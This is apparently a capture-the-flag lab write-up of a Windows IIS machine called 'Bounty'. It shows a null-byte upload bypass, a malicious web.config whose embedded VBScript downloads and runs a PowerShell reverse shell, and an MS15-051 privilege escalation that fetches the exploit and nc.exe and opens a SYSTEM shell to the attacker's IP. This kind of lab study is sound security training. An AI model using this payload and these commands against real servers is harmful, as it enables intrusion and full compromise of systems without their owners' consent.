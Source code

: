 # Bounty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.240     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 08:57 EDT
Nmap scan report for 10.129.85.240
Host is up (0.012s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

This is a pretty old machine AND its running Windows, so there's probably some kind of IIS exploit here.

### File Upload

The web application just shows an image of a wizard:

<figure><img src="../../../.gitbook/assets/image (95) (1) (1).png" alt=""><figcaption></figcaption></figure>

A quick check on the requests reveals this is running Microsoft-IIS/7.5.

<figure><img src="../../../.gitbook/assets/image (79) (3) (2).png" alt=""><figcaption></figcaption></figure>

We can run a quick `gobuster` scan with `aspx,html,txt` extensions, and find a few files.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.85.240/ -t 100 -x aspx,html,txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.85.240/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              html,txt,aspx
[+] Timeout:                 10s
===============================================================
2023/05/06 09:00:00 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 0]
```

The ASPX page was a simple file upload.&#x20;

<figure><img src="../../../.gitbook/assets/image (36) (5) (2).png" alt=""><figcaption></figcaption></figure>

I tried to upload an ASPX reverse shell, but it gives me an Invalid File error.

<figure><img src="../../../.gitbook/assets/image (37) (6).png" alt=""><figcaption></figcaption></figure>

This can be bypassed via NULL byte by appending `%00.jpg` to the end of the filename in Burp.

<figure><img src="../../../.gitbook/assets/image (42) (8).png" alt=""><figcaption></figcaption></figure>

However, when trying to view the file at `/UploadedFiles/rev.aspx`, it returns an error instead of a shell.

<figure><img src="../../../.gitbook/assets/image (30) (8).png" alt=""><figcaption></figcaption></figure>

So uploading ASPX files doesn't work. But how about `web.config` files? It is possible to upload one that has VBScript embedded within it to execute commands. This is because we can potentially overwrite the existing `web.config` file and replace it with ours that executes commands.

Here's the file I used:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.13/Invoke-PowerShellTcp.ps1')")
%>
```

This would download a simple Powershell reverse shell from our device. We can directly upload the `web.config` file without bypassing any file extension checks. Afterwards, visiting the `/UploadedFiles/web.config` directory would make the machine download and run the script, giving us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (85) (5).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag.

## Privilege Escalation

### MS15-051

I did a quick check on the machine's OS by running `systeminfo`.

```
PS C:\windows\system32\inetsrv> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          5/6/2023, 9:04:11 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,575 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,587 MB
Virtual Memory: In Use:    508 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.85.240
                                 [02]: fe80::4112:6417:a55f:fe64
                                 [03]: dead:beef::4112:6417:a55f:fe64
```

This was running Windows Datacenter 2008 and had no hotfixes applied. This means it is vulnerable to MS15-051.&#x20;

{% embed url="https://github.com/hfiref0x/CVE-2015-1701/tree/master/Compiled" %}

We can download the exploit and `nc.exe` to the machine via Powershell and run `exploit.exe` like this:

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.14.13/ms15-051x64.exe', 'C:\users\merlin\desktop\exploit.exe')
(New-Object Net.WebClient).DownloadFile('http://10.10.14.13/nc64.exe','C:\users\merlin\desktop\nc.exe')
C:\users\merlin\desktop\exploit.exe "C:\users\merlin\desktop\nc.exe -e cmd.exe 10.10.14.13 4444"
```

This would give us a reverse shell as SYSTEM.

<figure><img src="../../../.gitbook/assets/image (34) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!

